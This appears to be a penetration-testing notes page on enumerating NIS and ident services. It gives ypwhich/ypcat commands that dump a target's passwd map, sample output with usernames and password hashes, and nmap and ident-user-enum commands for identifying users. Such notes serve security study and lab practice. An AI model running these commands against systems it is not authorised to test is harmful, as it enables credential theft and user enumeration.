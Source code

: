 ### NIS
+ if find the service **ypbind** running, try exploit:
+ guess NIS domain name
+ ypwhich to ping 
+ ypcat to obtain sensitive info

```bash
apt-get install nis

ypwhich -d example.org 192.168.10.1

ypcat –d example.org –h 192.168.10.1 passwd.byname

tiff:noR7Bk6FdgcZg:218:101::/export/home/tiff:/bin/bash 
katykat:d.K5tGUWCJfQM:2099:102::/export/home/katykat:/bin/bash 
james:i0na7pfgtxi42:332:100::/export/home/james:/bin/tcsh 
florent:nUNzkxYF0Hbmk:199:100::/export/home/florent:/bin/csh 
dave:pzg1026SzQlwc:182:100::/export/home/dave:/bin/bash 
yumi:ZEadZ3ZaW4v9.:1377:160::/export/home/yumi:/bin/bash
```

|**Master file**|**Map**|**Notes**|
|:----|:----|:----|
|/etc/hosts|host.byname, hosts.byaddr|contains hostnames and ip details|
|/etc/passwd|passwd.byname, passwd.byuid|NIS user password file|
|/etc/group|group.byname, group.bygid|NIS group file|
|/usr/lib/aliases|mail.aliases|Details mail aliases|

### RPC Users
**rusersd** service
enumerate users of the target [1026 - Pentesting Rsusersd](/pentesting/1026-pentesting-rusersd).

## 113-ident
an [Internet](https://en.wikipedia.org/wiki/Internet)  [protocol](https://en.wikipedia.org/wiki/Protocol_(computing)) that helps identify the user of a particular [TCP](https://en.wikipedia.org/wiki/Transmission_Control_Protocol) connection
+ default port, 113
+ user enum 
+ get user/identify the service
+ practise, pg - peppo


```bash
PORT    STATE SERVICE
113/tcp open  ident

# nmap scan, defaut -sC will identify user of every running port
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.3p2 Debian 9 (protocol 2.0)
|_auth-owners: root
| ssh-hostkey: 
|   1024 88:23:98:0d:9d:8a:20:59:35:b8:14:12:14:d5:d0:44 (DSA)
|_  2048 6b:5d:04:71:76:78:56:96:56:92:a8:02:30:73:ee:fa (RSA)
113/tcp open  ident
|_auth-owners: identd
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: LOCAL)
|_auth-owners: root
445/tcp open  netbios-ssn Samba smbd 3.0.24 (workgroup: LOCAL)
|_auth-owners: root

# ident-user-enum
ident-user-enum 192.168.1.100 22 113 139 445
```